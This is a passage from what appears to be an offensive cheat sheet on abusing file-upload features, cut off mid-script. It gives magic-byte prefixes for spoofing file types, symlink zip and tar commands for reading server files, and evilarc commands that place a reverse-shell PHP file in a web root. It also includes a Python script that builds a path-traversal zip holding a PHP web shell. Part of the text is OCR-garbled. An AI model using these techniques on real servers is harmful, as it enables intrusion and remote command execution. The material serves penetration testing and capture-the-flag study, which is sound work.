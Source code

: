     - **PNG**: `"\\\\x89PNG\\\\r\\\\n\\\\x1a\\\\n\\\\0\\\\0\\\\0\\\\rIHDR\\\\0\\\\0\\\\x03H\\\\0\\\\xs0\\\\x03["`
    - **JPG**: `"\\\\xff\\\\xd8\\\\xff"`
    
    Refer to [](https://en.wikipedia.org/wiki/List%5C%5C_of%5C%5C_file%5C%5C_signatures)[https://en.wikipedia.org/wiki/List_of_file_signatures](https://en.wikipedia.org/wiki/List_of_file_signatures) for other filetypes.
    
- **Zip/Tar File Automatically decompressed Upload**
    
    If you can upload a ZIP that is going to be decompressed inside the server, you can do 2 things:
    
    ### Symlink
    
    Upload a link containing soft links to other files, then, accessing the decompressed files you will access the linked files:
    
    ```
    ln -s ../../../index.php symindex.txt
    zip --symlinks test.zip symindex.txt
    tar -cvf test.tar symindex.txt
    
    ```
    
    ### Decompress in different folders
    
    The decompressed files will be created in unexpected folders.
    
    One could easily assume that this setup protects from OS-level command execution via malicious file uploads but unfortunately this is not true. Since ZIP archive format supports hierarchical compression and we can also reference higher level directories we can escape from the safe upload directory by abusing the decompression feature of the target application.
    
    An automated exploit to create this kind of files can be found here: [**](https://github.com/ptoomey3/evilarc)[https://github.com/ptoomey3/evilarc**](https://github.com/ptoomey3/evilarc**)
    
    ```
    python2 evilarc.py -h
    python2 evilarc.py -o unix -d 5 -p /var/www/html/ rev.php
    
    ```
    
    You can also use the **symlink trick with evilarc**, if the flag is in `/flag.txt` make sure you crate a **symlink to that file** and **create that file in your system** so when you call evilarc it **doesn't error**.
    
    Some python code to create a malicious zip:
    
    ```
    #!/usr/bin/python
    import zipfile
    from cStringIO import StringIO
    
    def create_zip():
        f = StringIO()
        z = zipfile.ZipFile(f, 'w', zipfile.ZIP_DEFLATED)
        z.writestr('../../../../../var/www/html/webserver/shell.php', '<?php echo system($_REQUEST["cmd"]); ?>')
        z.writestr('otherfile.xml', 'Content of the file')
        z.close()
        zip = open('poc.zip','wb')
        zip.write(f.getvalue())
        zip.close()
    